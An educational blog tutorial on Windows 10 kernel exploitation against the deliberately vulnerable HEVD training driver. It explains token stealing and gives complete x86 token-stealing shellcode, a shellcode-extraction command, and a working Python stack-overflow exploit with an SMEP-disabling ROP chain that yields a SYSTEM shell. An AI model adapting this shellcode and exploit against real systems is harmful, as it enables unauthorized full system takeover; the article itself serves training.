 :page-slug: hevd-privilege-escalation/
:page-date: 2020-09-24
:page-category: attacks
:page-subtitle: Local Privilege Escalation
:page-tags: osee, training, exploit, windows, kernel, hevd
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-privilege-escalation/cover_hrrhjs.webp
:page-alt: Photo by Christina @ wocintechchat.com on Unsplash
:page-description: In this article we will be able to perform a Local Privilege Escalation using an exploit to HEVD
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/F75IfIWSqRY

= HEVD: Local Privilege Escalation

This is the fourth article on where we've been through Windows Kernel
exploitation, using
link:https://github.com/hacksysteam/HackSysExtremeVulnerableDriver[HackSys Extremely Vulnerable Driver]
or `HEVD` as the target. In the previous articles, we've covered:

* link:../windows-kernel-debugging/[Lab setup], describing the tools and
environment needed to do Windows Kernel debugging.
* link:../hevd-dos/[Denial of Service] in which we performed an initial
attack to `HEVD`.
* link:../hevd-smep-bypass/[kASLR SMEP] were also successfully bypassed and
we could execute a simple shellcode in kernel mode.

In this article we will be able to obtain a privileged `SYSTEM` shell,
performing a Local Privilege Escalation by stealing security tokens.
We will also need to successfully resume execution of our OS after
the attack, to avoid any crash.

== Security token stealing

When we are attacking the kernel, we are supposed to have unprivileged access
to the target machine. That's why the common exploit goal is to perform
Local Privilege Escalation which means to get full privileges on the
OS. There are
link:https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/[several methods]
that can be used to do that. Most of them (ab)use the privilege model
implemented by Windows.

In Windows, when the system starts, a process called `System` is created,
always with `PID` 4. As this process is owned by the `SYSTEM` user, we will
use this as the target process to steal the ticket from.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/sysprocess2_fprfev.webp[SYSTEM processes]

Each process has a `EPROCESS` structure.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/eprocess1_mmonli.webp[EPROCESS structure]

One of the members of that structure is `Token` which is a ticket granted
by the `LSASS` process.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/token1_vggzjy.webp[Security Token]

The token is used to perform operations on the system
based on the permissions granted to it. For example, if a process
wants to read a file, that file security descriptor will check if the
token of process has the permissions to do it. This is what is known as
Discretionary Access Control List or `DACL`.

In Windows, the `SYSTEM` token has all the permissions granted on all the
system objects (files, processes, devices, pipes, etc). That's why, if
we are able to steal that token and insert it to a non-privileged process,
that process will gain `SYSTEM` privileges.

To do that, we first need to get the offset of the `Token` field in the
`EPROCESS` structure:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/token2_yrbmfg.webp[Security Token]

As you see, it is at `_EPROCESS+0x0fc`. With that, we need to get the `SYSTEM`
process descriptor:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/sysprocess1_tpnrcu.webp[SYSTEM process]

Then, we need to get the value of the token for the `SYSTEM` process:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-privilege-escalation/tokenvalue1_kvahmc.webp[SYSTEM token value]

Now, we launch a `cmd.exe` process on the target OS and get the current
privileges:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/before1_pxrxmn.webp[Before Privilege Escalation]

We must get the `cmd.exe` process descriptor:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/cmdprocess1_xtjbqg.webp[CMD process]

Finally, we must copy the value of the token of the `SYSTEM` process to
the `cmd.exe` process. Let's see it in action:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/lpe1_hb1a8f.gif[Local Privilege Escalation]

Wonderful! As you can see, our `cmd.exe` is now running as
`nt authority\system`!

*NOTE:* We need to remember that the offsets described in this article
are only applicable for the Windows version that we are currently using:
Windows 10 1703 32 bits.

Now, we must make this process programmatically if we want to include
it in our exploit. The strategy is the following:

* Look for a fixed starting point that we can use to calculate offsets, using
position-independent code.
* Get the current process list.
* Find the `cmd.exe` process.
* Find the `SYSTEM` process (with `PID` 4).
* Grab the `Token` from the `SYSTEM` process.
* Copy the token from process `SYSTEM` to the `cmd.exe` process.
* Restore execution.
* Enjoy.

The first step is to find a fixed position from where we can get the required
structures as an offset. According to
link:https://en.wikipedia.org/wiki/Win32_Thread_Information_Block[this entry],
we can access the `_NT_TIB` structure from the `fs` segment selector. This
structure holds information of the current running thread (in our case, that
would be the exploit). The article also says that we can reach the `_KTHREAD`
structure at `fs+0x124`. With that, we can start writing some assembler:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
----

In the `_KTHREAD` structure we can find an offset to the `_KPROCESS`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/kthread1_ghbqtt.webp[KTHREAD KPROCESS]

It turns out that `_KPROCESS` is the first field of `_EPROCESS`, which means
that we can access the `_EPROCESS` structure at `_KTHREAD+0x150`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
----

The `_EPROCESS` structure holds the required offsets to the other needed
information:

* `_EPROCESS+0x0b8` points to `ActiveProcessLinks` which is a linked list
holding the current running processes, and `_EPROCESS+0x0b4` points to the
current process `PID`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/activeprocess1_krqcw8.webp[Active Process Links]

* `_EPROCESS+0x140` points to `InheritedFromUniqueProcessId` which will contain
the `PID` of the parent process, in our case the `PID` of `cmd.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/parentpid1_msemxx.webp[Parent Pid]

With that, we need to save the `PID` of `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
----

Now we need to traverse the `ActiveProcessLinks` list to find the `_EPROCESS`
structure for the `cmd.exe` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
----

Then, find the `_EPROCESS` structure for the `SYSTEM` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4            	; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
----

We then must move the token from `SYSTEM` to `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
----

And finally restore execution. As we are writing in the stack, we had surely
mangled immediate stack frames of caller functions. If we look at the stack
after executing the shellcode, we can see that there is a stack frame at which
we can return to, located at `esp+0x10`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-privilege-escalation/prev-ebp1_vmscb7.webp[Previous unmangled stack frame]

With that, we can add a restore point to our shellcode:

[source,x86asm]
----
pushad
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
popad                                   ; Restore
xor eax,eax
inc eax
add esp,0x10
pop ebp
ret 8
----

Now, we can compile that code with:

[source,console]
----
> nasm -f elf32 -o steal.o steal.asm
----

And get the shellcode with:

[source,console]
----
$ for i in $(objdump -d steal.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01\x00\x00
\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39\x91\xb4\x00\x00
\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00
\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1\xfc\x00\x00\x00\x8b\x09\x89\x8f
\xfc\x00\x00\x00\x61\x31\xc0\x40\x83\xc4\x10\x5d\xc2\x08\x00
----

Let's pick the exploit from the link:../hevd-smep-bypass/[last post],
and update the shellcode. I also added some `print` calls that helps
to trace at what stage of the exploit we are now:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-privilege-escalation/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01'
    b'\x00\x00\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39'
    b'\x91\xb4\x00\x00\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00'
    b'\x81\xe9\xb8\x00\x00\x00\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1'
    b'\xfc\x00\x00\x00\x8b\x09\x89\x8f\xfc\x00\x00\x00\x61\x31\xc0\x40\x83'
    b'\xc4\x10\x5d\xc2\x08\x00'
)

print('Allocating memory for shellcode...')
RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

print('Moving shellcode to heap...')
KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

print('Creating ROP chain...')
ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

print('Opening driver handle...')
HANDLE = DeviceIoControl(DEVICE_NAME)
print('Sending payload...')
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
print('Done.')

sys.exit(0)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330910/blog/hevd-privilege-escalation/success_flunbs.gif[Success]

Glorious! We were able to steal the token of the `SYSTEM` process and
copy it to our `cmd.exe` shell. Now, we own the system!

== Conclusions

It was fun to steal the `SYSTEM` process token and pass it to our own
parent process. There are many other ways of gaining Local Privilege Escalation
but this method is one of the most used because it is extremely reliable if
you can restore the execution of the kernel.
